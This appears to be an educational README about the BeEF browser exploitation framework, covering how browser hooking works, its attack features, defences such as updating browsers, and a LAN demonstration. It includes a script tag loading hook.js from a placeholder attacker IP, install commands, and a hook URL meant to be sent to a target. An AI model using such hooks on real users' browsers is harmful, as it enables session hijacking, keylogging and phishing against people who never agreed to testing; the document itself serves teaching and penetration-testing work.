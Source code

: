 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## Browser Exploitation
Generally, an exploit is any code that utilizes vulnrabilities in an operating system or a piece of software to perform malicious actions. Browser or website exploitation takes advantage of a web browser vulnerability and breach a web browser security to alter a user's browser settings without their knowledge [3][3]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers inside a LAN network [4][4]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [4][4]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [5]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [6][6],[7][7]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [6]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [4][4]. 
## How To Protect Against BeEF?
To protect a browser against BeEF or any other browser explotation tool, a number  of steps should be taken:
* Continously update you browser:

When a vulnerability in a web browser is found, the vendor often releases a patch to fix the issue causing it. Hence, updating web browser provides protection against more recent exploits.
* Do not click on suspicious links or attachments:

Most social engineering techniques are often used by tricking targets to open URLs to suspicious websites. Hence, verifying that an attachment is legitimate is important before clicking it. There are multiple online tools to check if the recieved URL is safe or not such as [11]
* Install firewall and other security software: 

Firewalls act as a strong barrier between the internet and the web browser which detects, blocks suspicious websites, and catches threats before breaching web security 
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [8][8] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hook.png "Hook Page on Targeted Browser")
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Hooked.png "Hooked Browser as Seen From the Attacker Panel")

Now, the attacker has access to the target's browser and is able to send many different commands from the commands window.
## Additional Resources
As mentioned before, the actual version of BeEF Framework works only over LAN Networks. Hence, some developers have developed tools that facilitate with BeEF to operate remotely over WAN such as [9][9],[10][10]


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.ericom.com/whatis/browser-exploit/
[4]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[5]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[6]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[7]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[8]: https://github.com/beefproject/beef
[9]: https://github.com/AzizKpln/Beef-Over-AWS
[10]: https://github.com/stormshadow07/BeeF-Over-Wan
[11]: https://search.google.com/search-console/welcome?action=inspect&utm_medium=referral&utm_campaign=9012289
